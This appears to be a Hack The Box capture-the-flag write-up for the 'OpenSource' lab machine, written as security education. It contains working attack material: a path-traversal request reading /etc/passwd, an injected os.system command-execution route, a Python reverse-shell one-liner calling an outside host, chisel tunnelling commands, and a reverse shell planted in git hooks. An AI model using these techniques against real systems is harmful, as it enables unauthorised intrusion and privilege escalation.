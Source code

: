```yaml
---
draft: false
news_post: false
author:
  - paul-knight
title: HTB Writeup - OpenSource
date: 2022-10-12T14:28:43.259Z
usePageBundles: true
featureImage: images/opensource.png
thumbnail: images/opensource.png
shareImage: images/opensource.png
codeLineNumbers: true
codeMaxLines: 10
figurePositionShow: true
showRelatedInArticle: true
tags:
  - Application Security
categories: Education & Training
series:
  - hack the box
---
```

# OPENSOURCE
### User flag

As always nmap tcp port scan

```shell
$ sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allports 10.10.11.164 -oN allports
PORT     STATE    SERVICE REASON
22/tcp   open     ssh     syn-ack ttl 63
80/tcp   open     http    syn-ack ttl 62
3000/tcp filtered ppp     no-response
```

Then I visited the website played with the upload files subdomain and found some errors that indicated that the flask application was in debug mode, so to make sure I fuzzed the visited and found what I expected.

```shell
$ ffuf -w ~/wordlist/directory-list-2.3-big.txt:FUZZ -u http://10.10.11.164/FUZZ -v -o fuzzdir

[Status: 200, Size: 2489147, Words: 9473, Lines: 9803, Duration: 124ms]
| URL | http://10.10.11.164/download
    * FUZZ: download

[Status: 200, Size: 1563, Words: 330, Lines: 46, Duration: 48ms]
| URL | http://10.10.11.164/console
    * FUZZ: console

```

The console was protected by a pin so I did some research to see if there was anyway to crack it and found [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug). I needed someway to get a LFI to hack the console.
Eventually by reading the source code I found some protection against *../* but not against *..//* in utils.py

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```
So via BurpSuite I changed the name of the file to ..//..//..//..//etc/passwd and I was able to download the file

```
GET /uploads/..//..//..//..//etc/passwd HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1
```

 Next I tried cracking into the console but I came to the conclusion it was a rabbit hole since it was impossible for me to crack the PIN. However I thought that if I could manipulate the GET request I could also do it with the POST request and change the python code. So I added a bit of code to views.py

```python
@app.route('/dasor')
def rce():
    return os.system(request.args.get('cmd'))
```

And uploaded it with a POST requests

```
POST /upcloud HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------12202201532330092291110617912
Content-Length: 1008
Origin: http://10.10.11.164
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1

-----------------------------12202201532330092291110617912
Content-Disposition: form-data; name="file"; filename="..//app/app/views.py"
Content-Type: text/x-python
...
```

Then I went to the domain I had just created and started a reverse shell

```
http://10.10.11.164/dasor?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.0.1%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

But I was not a user on the system I was root but ... in a container. At that point I remebered that port number 3000 so I tried to use chisel for port forwarding. Also I had to compile it staticly to use it in the container. I uploaded the binary through the page and fowarded the port

```shell
#on kali
$ chisel server -p 7777 --reverse
#on victim
$ ./chisel client 10.10.14.74:7777 R:3000:172.17.0.1:3000
```

The port contained gitea with a user called dev01 I found his credentials on the .git folder that comes with the source code on the brach dev. Once we login we find his ssh key so I copied it to my machine and logged via ssh.

### Root flag

As always I used linepeas but this time it did not found anything critical. I realised that the user had a git directory in his home but I did not found any clue until I tiped git log once again and saw another new commit. Was someone else on the machine or was it automatic?. To clear that doubt I uploaded and used pspy64 and found out every minute a commit was made.

Firstly I checked on crontab but it was empty so I did some research and found you can schedule git commands inside the .git/hooks so I looked inside and found a lot of files and added a reverse shell to one of them, one minute later I was root.

I later found out that you were supposed to go into the folder by yourself and delete the .sample that the files had since with the .sample they do not get executed. However in my instance someone already did it.
